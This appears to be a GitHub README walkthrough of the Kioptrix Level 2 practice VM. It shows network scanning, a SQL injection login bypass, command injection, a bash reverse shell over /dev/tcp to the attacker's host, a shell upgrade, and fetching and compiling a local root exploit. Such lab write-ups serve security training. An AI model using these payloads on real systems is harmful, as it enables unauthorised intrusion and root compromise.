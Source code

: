 # Kioptrix-level-2
  
this Kioptrix VM Image is an easy challenge. The object of the game is to acquire root access via any means possible (except actually hacking the VM server or player). The purpose of these games are to learn the basic tools and techniques in vulnerability assessment and exploitation. There are more ways than one to complete the challenges.
 
##  Gain root access on this machine:  ##

####  Start the Kioptrix VM on VirtualBox or VMware ####
 ![Kioptrix_Level_1-1](https://user-images.githubusercontent.com/58820314/112413283-9997c200-8d28-11eb-877e-4c53a79bb04e.png)
 
 • Know your IP and interface using this command : **sudo ifconfig**
 ![1](https://user-images.githubusercontent.com/58820314/112559678-264e8880-8dda-11eb-8fec-2aaa8ea44a23.png)

 • Discover the Network to obtain the IP of this machine with : **sudo netdiscover -i eth0** 
  ![2](https://user-images.githubusercontent.com/58820314/112559689-2f3f5a00-8dda-11eb-8e10-20b8d3712b41.png)
  ![3](https://user-images.githubusercontent.com/58820314/112559732-48e0a180-8dda-11eb-98f6-ee6c2733980c.png)

• Next step is to scan for vulnerabilities using **Nmap** by this command: **nmap -A -T4 192.168.3.132**
![4](https://user-images.githubusercontent.com/58820314/112559782-631a7f80-8dda-11eb-82b3-34276d19a3bd.png)

 ### we will open the web page of this machine and try some **SQL and command injection**   ###
  ### we are notice that SQL injection is : **'or'1'='1** at **Username** and **Password** fields  ###
 ![5](https://user-images.githubusercontent.com/58820314/112559901-a07f0d00-8dda-11eb-8214-152cb7486060.png)
  ### Now we are tying **Command Injection** code : **ping ; id** ### 
  ![6](https://user-images.githubusercontent.com/58820314/112560120-269b5380-8ddb-11eb-8f7d-c0777d78e2bd.png)
### Here we have the output is showing that the user is **apache** ###
![7](https://user-images.githubusercontent.com/58820314/112560193-521e3e00-8ddb-11eb-9ae9-34174ab6bd7a.png)
### Now we will try to listen on specific port like : 800  using reverse shell ###
### commands foe reverse shell are : **sudo nc -lvnp 800** and on the field of web console :**ping ; bash -i >& /dev/tcp/192.168.3.131/800 0>&1** ###
![9](https://user-images.githubusercontent.com/58820314/112560379-c0fb9700-8ddb-11eb-8d8c-4cfcb4f63ff5.png)
![8](https://user-images.githubusercontent.com/58820314/112560392-c527b480-8ddb-11eb-9fec-a6a39f03a7b5.png)
### The Next step is to make the shell more interactive and  stable with this command : **python -c 'import pty;pty.spawn("/bin/bash")'** ###
### The other commands used to know the  **type of kernel** , **OS operated** , **Version of kernel**   
![10](https://user-images.githubusercontent.com/58820314/112561081-29974380-8ddd-11eb-9afa-8761df3cd0b3.png)
### Now move the exploit file  to  **/var/www/html/** to be downloaded on the machine using this command ****wget http://192.168.3.132****
### at the next step to run the **C** exploit file using **gcc compiler** with this command **gcc k.c** and the output is **a.out** file  
### The last step is to Execute the output file with this command : **./a.out** . 
# Best of luck #
